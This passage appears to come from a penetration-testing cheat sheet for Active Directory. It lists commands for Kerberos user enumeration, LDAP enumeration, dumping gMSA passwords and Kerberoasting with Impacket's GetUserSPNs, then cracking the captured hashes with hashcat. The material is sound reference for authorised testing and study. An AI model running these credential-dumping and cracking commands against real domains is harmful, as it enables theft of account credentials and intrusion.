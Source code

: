 ### Enumusers
> With msfconsole we have able to list users form wordlists of users.

```
msf6 auxiliary(gather/kerberos_enumusers)
```

- [Kerberos cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

# Ldap
> *Port: 389, 636*
> 
> Lightweight directory access protocol (LDAP) is a protocol that makes it possible for applications to query user information rapidly.

### Nmap
```bash
nmap -n -sV --script "ldap* and not brute" -p 389 ip
```

### Ldapsearch
```
ldapsearch -x -h IP -b DC=EXAMPLE,DC=COM
```

### Ldapdomaindump
> [ldapdomaindump](https://github.com/dirkjanm/ldapdomaindump) is a tool for gathering information of ldap. (you need to have creds of an user to use it)

```
ldapdomaindump IP -u 'DOMAIN\USER' -p PASSWORD --no-json --no-grep
```

### gMSADumper
> [gMSADumper](https://raw.githubusercontent.com/micahvandeusen/gMSADumper/main/gMSADumper.py) read the gMSA (group managed service accounts) password of the account.

```
python gMSADumper.py -u USER -p PASSWORD -d DOMAIN
```

# IMPACKET
### GetUserSPNs
> [GetUserSPNs](https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/GetUserSPNs.py) find Service Principal Names that are associated with normal user account, and exfiltrate the kerberos.

```
python GetUserSPNs.py -dc-ip IP -outputfile KERBEROS_FILE_OUTPUT -request -debug <DOMAIN>/<USER>

hashcat -m 13100 --force -a 0 KERBEROS_FILE /usr/share/wordlists/rockyou.txt
```
